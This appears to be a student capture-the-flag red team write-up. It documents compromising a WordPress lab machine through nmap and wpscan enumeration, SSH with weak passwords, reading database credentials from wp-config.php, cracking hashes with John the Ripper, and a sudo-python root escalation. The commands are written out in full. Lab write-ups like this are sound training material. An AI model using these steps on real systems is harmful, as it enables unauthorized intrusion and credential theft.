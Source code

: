# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110 
```

![nmap Screenshot](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/target1_nmap_portscan.png)



This scan identifies the services below as potential points of entry:
 ### Target 1
  - **Port 80 http Apache 2.4.10**
> [CVE-2017-9798](https://nvd.nist.gov/vuln/detail/CVE-2017-9798) Apache httpd allows remote attackers to read secret data from process memory if the Limit directive can be set in a user's .htaccess file, or if httpd.conf has certain misconfigurations, aka Optionsbleed. The attacker sends an unauthenticated OPTIONS HTTP request when attempting to read secret data. This is a use-after-free issue and thus secret data is not always sent, and the specific data depends on many factors including configuration. 
 * **Port 111 rpc-bind**
> [CVE-2017-8779](https://nvd.nist.gov/vuln/detail/CVE-2017-8779) - Does not consider maximum RPC data size during memory allocation for XDR strings, allowing remote attackers to cause a denial of service via a crafted UDP packet via port 111, aka RPC bomb.
 - **Port 139, 445 netbios-ssn Samba smbd 3.x - 4.x**
 > [CVE-2016-2115](https://nvd.nist.gov/vuln/detail/CVE-2016-2115) - Samba 3.x and 4.x before 4.2.11, 4.3.x before 4.3.8, and 4.4.x before 4.4.2 does not require SMB signing within a DCERPC session over ncacn_np, which allows man-in-the-middle attackers to spoof SMB clients by modifying the client-server data stream.


### Exploitation to find Flags

The Red Team was able to penetrate _**Target 1**_ and retrieve the following confidential data:

 ### Flag 1 & 2

   - **Exploit Used**
      - `wpscan --url http://192.168.1.110/wordpress -e vp,u `
      - This returned usernames used to access Wordpress
      
![wpscan_user](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/wpscan_success_users.png)

      
   - Then ssh'd into Michaels account using: 
	      username: `michael@192.168.1.110` 
	      password: `michael` 
	      
![ssh@michael](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/ssh_michael.png)
      

   - **Directory exploration**
      - Accessed directory files to search for _flag1, 2.txt_
      - `find /var/www -iname flag*.txt -type f 2>dev/null`
      - `cd /var/www/html/wordpress`
        `grep -ir flag1`

`flag1.txt`:**`flag1{b9bbcb33e11b80be759c4e844862482d}`**
`flag2.txt`:**`flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`**

![flag1-2.png](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/flag1-2.png)

- ### Flag 3 & 4
  - Located _wp-config.php_ file:
    - `/var/www.html$ find . -iname wp-config.php`
    - `/var/www.html.wordpress$ cat wp-config.php`
    - This file disclosed:
      ``DB_name: Wordpress``
      ``DB_user: root``
      ``DB_password: R@v3nSecurity``

![wp-config.php file](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/wp-config-dbpsswd.png)

 - Entered command to see all databases:
   - `SHOW tables;`
   -  `SELECT * FROM wp-posts;`
     `flag3.txt`:**`flag3{afc01ab56b50591e7dccf93122770cd2}`**
![Database.png](Link to .png file once you get it) 

![flag3.png](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/flag3-4_wp-post.png)

- Entered _wp_users_ database:
  - `SELECT * FROM wp_users;`
  - Copied user hash dump to _wp_hashes.txt_ and ran it through **John The Ripper**
  - `$john --wordlist=rockyou.txt wp_hashes.txt`
  - Discovered Stevens password: **pink84**

![Johns_Hash_crack.png](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/Johns_hash_crack.png)

- SSH into **Steven's** account using: 
	      username: `steven@192.168.1.110` 
	      password: `pink84` 
  - Escalated to root:
  - `$sudo python -c 'import os;os.system("usr/bin/sudo su root")'`
  - Gained root shell `root@Target1:/usr/bin#`	   
     
![pwnd_target1.png](https://github.com/johnny-atx/Final-Project/blob/master/Images/Final_Day1-2/pwnd_root.png)


`flag4.txt`:**`flag4{715dea6c055b9fe3337544932f2941ce}`**

<!--stackedit_data:
eyJoaXN0b3J5IjpbNjg5MTY1MDE2LDE2OTc5Njc4NDUsMTIwNj
E4MzEyNCwtNjc0NTM2MzY0LDkzMjY0NTQxMSwtODkxMzcwMjgw
LDE1NjU5MzY1MDksLTgyNjA4MjE3LDE0NDQ1MzM1NTAsLTM5Mj
kxNzMzMCw1MTQ2NzUyNjMsMTM5NTE0NjUxOSwtNTQ2NDI3ODYy
LDEzNDUxNDQyMjEsLTE2MTcwMjk0ODEsLTEzNzg5MTQ0MjVdfQ
==
-->